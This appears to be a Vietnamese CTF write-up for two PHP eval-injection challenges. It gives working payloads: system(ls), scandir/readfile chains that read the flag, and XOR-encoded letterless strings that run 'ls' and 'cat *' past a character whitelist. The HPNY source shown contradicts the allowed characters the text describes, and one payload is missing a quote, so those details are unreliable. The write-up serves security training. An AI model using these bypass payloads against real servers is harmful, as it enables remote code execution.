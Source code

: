 # WEB
## HPNY
- Link tham khảo: https://tsublogs.wordpress.com/2018/12/13/wargame-code-breaking-com-solution/
- Source code:
```
 <!-- Enjoy Tsu's Super Calculator <3, Not Only + - * / but also many other operators <3 <3 <3 -->

<?php

ini_set("display_errors", 0);

if(!isset($_GET["calc"])) 
{
    show_source(__FILE__);
}
else
{
    $wl = preg_match('/^[0-9\+\-\*\/\(\)\'\.\~\^\|\&]+$/i', $_GET["calc"]);
    if($wl === 0 || strlen($_GET["calc"]) > 70) {
        die("Tired of calculating? Lets <a href='https://www.youtube.com/watch?v=wDe_aCyf4aE' target=_blank >relax</a> <3");
    }
    echo 'Result: ';
    eval("echo ".eval("return ".$_GET["calc"].";").";");
} 
```
- Đề bài chỉ cho phép sử dụng các kí tự từ 'a' đến 'z', '(', ')', '_' và '.'
- Do phần nội dung được nhập vào được thực thi bởi `eval()` nên có thể bị dính lỗi dạng code/command execution.
- Thử với `system(ls)`:
![system(ls)](./images/Selection_001.png)

- Thay vì sử dụng command execution, ta có thể sử dụng dạng code execution: `print_r(scandir(getcwd()))`
![scandir(getcwd())](./images/Selection_002.png)

- Lấy tên file flag: `print_r(next(array_reverse(scandir(getcwd()))))`
![get flag's filename](./images/Selection_003.png)

- Đọc nội dung flag: `readfile(next(array_reverse(scandir(getcwd()))))`
![flag](./images/Selection_004.png)

## super_calc
- Link tham khảo: https://ironhackers.es/en/tutoriales/saltandose-waf-ejecucion-de-codigo-php-sin-letras/
- Source code:
```
<?php

ini_set("display_errors", 0);

if(!isset($_GET["calc"]))
{
    show_source(__FILE__);
}
else
{
    $wl = preg_match('/^[0-9\+\-\*\/\(\)\'\.\~\^\|\&]+$/i', $_GET["calc"]);
    if($wl === 0 || strlen($_GET["calc"]) > 70) {
        die("Tired of calculating? Lets <a href='https://www.youtube.com/watch?v=wDe_aCyf4aE' target=_blank >relax</a> <3");
    }
    echo 'Result: ';
    eval("echo ".eval("return ".$_GET["calc"].";").";");
}
```

- Đề bài chỉ cho phép sử dụng tập kí tự `['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '+', '-', '*', '/', '(', ')', "'", '.', '~', '^', '|', '&']`
- Có thể sử dụng system() hoặc dấu backtick để thực thi các lệnh hệ thống.
 - Liệt kê các file hệ thống (```ls```): `'0840'^'.*9.'^'~~~~'`
 - Đọc file (```cat *```): `0000000'^'.--880.'^'~~||(*~'`
